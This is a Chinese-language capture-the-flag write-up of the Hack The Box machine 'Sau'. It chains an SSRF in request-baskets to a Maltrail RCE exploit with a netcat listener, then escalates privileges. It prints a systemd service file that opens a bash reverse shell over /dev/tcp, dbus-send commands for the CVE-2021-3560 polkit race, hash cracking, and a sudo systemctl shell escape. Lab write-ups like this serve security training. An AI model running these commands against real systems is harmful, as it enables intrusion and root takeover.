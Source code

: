 htb | sau

使用nmap扫描端口

```
nmap -sV -sC -v -oN Sau 10.10.11.224
```

```
# Nmap 7.93 scan initiated Mon Dec 25 08:56:25 2023 as: nmap -sV -sC -v -oN Sau 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up (2.4s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 25 Dec 2023 01:00:51 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 25 Dec 2023 00:59:27 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 25 Dec 2023 00:59:38 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.93%I=7%D=12/25%Time=6588D3F3%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;
SF:\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Mon,\x2025\x20Dec\x2
SF:02023\x2000:59:27\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/
SF:web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\
SF:x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x20
SF:200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Mon,\x2025\x20Dec\x2
SF:02023\x2000:59:38\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReques
SF:t,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain
SF:;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request
SF:")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20te
SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x2
SF:0Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:ntent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n
SF:\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400
SF:\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\n
SF:Connection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20
SF:charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(
SF:Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\
SF:nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Option
SF:s:\x20nosniff\r\nDate:\x20Mon,\x2025\x20Dec\x202023\x2001:00:51\x20GMT\
SF:r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20na
SF:me\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$
SF:\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type
SF::\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x2
SF:0Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20cl
SF:ose\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 25 09:02:57 2023 -- 1 IP address (1 host up) scanned in 392.40 seconds

```



访问55555端口发现安装了request-baskets 版本为1.2.1

![image-20231225092404781](../图片/image-20231225092404781.png)

才爆出request-baskets 1.2.1 ssrf 服务端请求伪造



```
{
  "forward_url": "http://127.0.0.1:80",
  "proxy_response": true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```



![image-20231225222940587](../图片/image-20231225222940587.png)



访问http://10.10.11.224:55555/qiang

![image-20231225222916756](../图片/image-20231225222916756.png)





在页面中发现是Maltrail v0.53版本



在谷歌搜索相关exp

```
Maltrail v0.53 exploit
```

![image-20231226130737821](../图片/image-20231226130737821.png)

 **[Maltrail-v0.53-漏洞利用](https://github.com/spookier/Maltrail-v0.53-Exploit)**有RCE漏洞

```
git clone https://github.com/spookier/Maltrail-v0.53-Exploit.git
cd Maltrail-v0.53-Exploit
python exploit.py 10.10.16.16 55566 http://10.10.11.224:55555/qiang
```

```
nc -lnvvp 55566
```

![image-20231226132607470](../图片/image-20231226132607470.png)



查看flag是否有sudo权限

```
ec332b88b8cb2824b742013561c14be1
```

![image-20231226132933876](../图片/image-20231226132933876.png)

搜索sudo systemctl提权

编写一个service文件来被systemctl加载

```
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/bash -i > /dev/tcp/10.10.16.16/5566 0>&1 2<&1"
[Install]
WantedBy=multi-user.target' > /tmp/reshell.service
```

但是需要本用户密码，由于我是通过rce反弹的shell没有用户密码

使用python开启临时服务上传linpeas.sh查看本机有什么信息

发现有[CVE-2021-3560](https://github.com/hakivvi/CVE-2021-3560)

![image-20231226134914687](../图片/image-20231226134914687.png)



```
git clone https://github.com/hakivvi/CVE-2021-3560.git          
cd CVE-2021-3560 
gcc -Wall exploit.c -o exploit $(pkg-config --libs --cflags dbus-1) 
```



编译报错Package 'dbus-1', required by 'virtual:world', not found使用apt安装libdbus-1-dev解决

```
apt install libdbus-1-dev
```

![image-20231226141305543](../图片/image-20231226141305543.png)

目标机报错无法提权

手搓

```
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:pwn string:"pwn your host" int32:1

0.00user 0.00system 0:00.02elapsed 22%CPU (0avgtext+0avgdata 2876maxresident)k




dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:pwn string:"pwn your host" int32:1 & sleep 0.002s ; kill $!



openssl passwd -5 qwertyuiop



dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1002 org.freedesktop.Accounts.User.SetPassword string:'passwd' string:GoldenEye & sleep 0.008s ; kill $!
```

![image-20231227141840963](../图片/image-20231227141840963.png)

手撮失败，sys返回的值为0.002s，改成0.001和改成0.002都创建不了pwn用户，试了无数次，换个方向。

maltrail配置文件在/opt/maltrail/maltrail.conf下发现一串hash

```
admin:9ab3cd9d67bf49d01f6a2e33d0bd9bc804ddbe6ce1ff5d219c42624851db5dbc:0:
```



使用hsah-identifier验证一下hash类型:SHA-256,Haval-256

![image-20231227150234988](../图片/image-20231227150234988.png)

使用hashcat爆破hash值为：changeme!

```
hashcat -m 1400 hash  /usr/share/wordlists/rockyou.txt
```

![image-20231227204153704](../图片/image-20231227204153704.png)

试了一下用root和puma用户SSH根本就不行，等级为easy的提权费了九牛二虎之力

在其他wp看到这篇提权文章[systemctl提权](https://gtfobins.github.io/gtfobins/systemctl/)等服务状态显示完毕之后输入!sh就提权成功了，为什么会用trail服务因为sudo-l只有这个服务才能不用输入密码。。。



![image-20231226132933876](../图片/image-20231226132933876.png)

```
sudo systemctl  status trail.service
!sh
```

提权成功

![image-20231227210557969](../图片/image-20231227210557969.png)

```
abb964dd94c0f8cece8f25814b83c15f
```

